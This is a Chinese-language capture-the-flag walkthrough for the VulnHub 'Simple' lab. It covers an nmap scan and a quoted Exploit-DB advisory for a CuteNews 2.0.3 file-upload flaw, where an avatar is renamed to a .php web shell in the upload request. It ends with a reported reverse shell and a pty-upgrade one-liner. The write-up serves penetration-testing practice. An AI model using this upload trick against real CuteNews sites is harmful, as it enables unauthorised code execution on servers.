







# Simple

> https://download.vulnhub.com/sectalks/Simple.ova

靶场IP：`192.168.32.198`

扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV 192.168.32.198                                                                                                                                                                                                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 05:39 EDT
Nmap scan report for 192.168.32.198
Host is up (0.00064s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
MAC Address: 00:0C:29:C5:01:28 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds

```



查找CMS版本漏洞



```
┌──(root💀kali)-[/tmp]
└─# cat 37474.txt                 
          CuteNews 2.0.3 Remote File Upload Vulnerability
        =================================================
1-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=0
0     _                   __           __       __                     1
1   /' \            __  /'__`\        /\ \__  /'__`\                   0
0  /\_, \    ___   /\_\/\_\ \ \    ___\ \ ,_\/\ \/\ \  _ ___           1
1  \/_/\ \ /' _ `\ \/\ \/_/_\_<_  /'___\ \ \/\ \ \ \ \/\`'__\          0
0     \ \ \/\ \/\ \ \ \ \/\ \ \ \/\ \__/\ \ \_\ \ \_\ \ \ \/           1
1      \ \_\ \_\ \_\_\ \ \ \____/\ \____\\ \__\\ \____/\ \_\           0
0       \/_/\/_/\/_/\ \_\ \/___/  \/____/ \/__/ \/___/  \/_/           1
1                  \ \____/ >> Exploit database separated by exploit   0
0                   \/___/          type (local, remote, DoS, etc.)    1
1                                                                      1
0  [+] Site            : Inj3ct0r.com                                  0
1  [+] Support e-mail  : submit[at]inj3ct0r.com                        1
0                                                                      0
1               ##########################################             1
0               I'm T0x!c member from Inj3ct0r Team             1
1               ##########################################             0
0-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-==-=-=-1


# Exploit Title: CuteNews 2.0.3 Remote File Upload Vulnerability
# Date: [02/07/2015]
# Exploit Author: [T0x!c]
# Facebook: https://www.facebook.com/Dz.pr0s
# Vendor Homepage: [http://cutephp.com/]
# Software Link: [http://cutephp.com/cutenews/cutenews.2.0.3.zip]
# Version: [2.0.3]
# Tested on: [Windows 7]
# greetz to :Tr00n , Kha&mix , Cc0de  , Ghosty , Ked ans , Caddy-dz .....
==========================================================
 # Exploit  :

Vuln : http://127.0.0.1/cutenews/index.php?mod=main&opt=personal

 1 - Sign up for New User
 2 - Log In
 3 - Go to Personal options http://www.target.com/cutenews/index.php?mod=main&opt=personal
 4 - Select Upload Avatar Example: Evil.jpg
 5 - use tamper data  & Rename File Evil.jpg to Evil.php

-----------------------------2847913122899\r\nContent-Disposition: form-data; name="avatar_file"; filename="Evil.php"\r\

6 - Your Shell : http://127.0.0.1/cutenews/uploads/avatar_Username_FileName.php

 Example: http://127.0.0.1/cutenews/uploads/avatar_toxic_Evil.php         
```

创建一个帐户，更改头像，篡改请求，我们将拥有一个上传的 shell。

我们注册我们的帐户：



我们转到配置文件选项：



我们选择上传头像的选项：


使用bp拦截修改后缀



就可以看到上传成功。



反弹shell建立成功。



```
python -c 'import pty;pty.spawn("/bin/bash")'
```

